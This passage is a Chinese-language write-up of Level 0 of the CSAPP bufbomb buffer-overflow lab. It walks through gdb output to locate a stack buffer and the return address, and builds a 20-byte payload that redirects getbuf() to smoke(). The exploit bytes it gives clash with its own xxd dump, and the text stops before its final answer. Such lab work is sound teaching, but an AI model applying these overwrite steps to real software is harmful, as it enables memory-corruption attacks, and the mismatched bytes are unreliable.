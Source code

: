 *	Level0: Candle

	本题要求我们通过缓冲区溢出, 将 `getbuf()` 的返回地址定向到 `smoke()` 的起点, 从而执行 `smoke()` 函数

	栈帧结构如下

	![stack frame](https://github.com/jJayyyyyyy/USTC-2018-Smester-1/blob/master/CSAPP/exp/lab03/assets/stack_frame.png)

	通过分析 `getbuf()` 我们可以发现, `buf` 的起始地址为 `0xffffba2c`, 长度为 `0x0c`, 即 `12字节`, `getbuf()` 的返回地址保存在 `$ebp+0x04` 的地方, 值是 `0x0804901e`, 即 `test()` 中调用 `getbuf()` 后的下一条指令的地址

	```bash
	$ gdb bufbomb
	(gdb)
	set args -t SA18225263+SA18225419+SA18225037 < exploit-raw.txt
	break *0x8048fe0
	break *0x8048fe9
	break *0x8048ff1
	run

	Breakpoint 1, 0x08048fe0 in getbuf ()
	(gdb) x/x $ebp
	0xffffba58:     0xffffd5e8

	...
	0x08048fec in getbuf ()
	(gdb) x/x $ebp+0x04
	0xffffba3c:     0x0804901e
	(gdb) x/x $ebp
	0xffffba38:     0xffffba58

	(gdb) x/x $ebp-0x0c
	0xffffba2c:     0x00000000
	(gdb) x/x $esp
	0xffffba20:     0xffffba2c
	```

	于是我们的目标是, 构造 `exploit-raw.txt`, 将其写入 `buf`, 修改返回地址, 使其指向 `smoke()` 的入口地址

	通过查看 `bufbomb.s` 我们可以知道 `smoke()` 的入口地址是 `0x08048e20`

	因此我们可以构造如下的 `exploit.txt`

	> 00 00 00 00 00 00 00 00 00 00 00 00 58 ba ff ff 20 8e 04 08

	然后我们用 `sendstring` 将其转为 `exploit-raw.txt`

	```$
	$ ./sendstring < exploit.txt > exploit-raw.txt
	$ xxd exploit-raw.txt
	00000000: 0000 0000 0000 0000 0000 0000 38ba ffff  ................
	00000010: 208e 0408 0a                              ....
	```

	内容一共 20 个字节, 第一组是前 12 个字节, 内容是填充到 `buf` 的无用字节, 第二组是接下来的 4 个字节, 写入 `R[%ebp]` 原来的数据, 第三组是最后 4 个字节, 写的是 `smoke()` 的入口地址。这样 `getbuf()` 结束以后, 就会进入 `smoke()`.

	综上, 第1题的 `exploit-raw.txt` 为
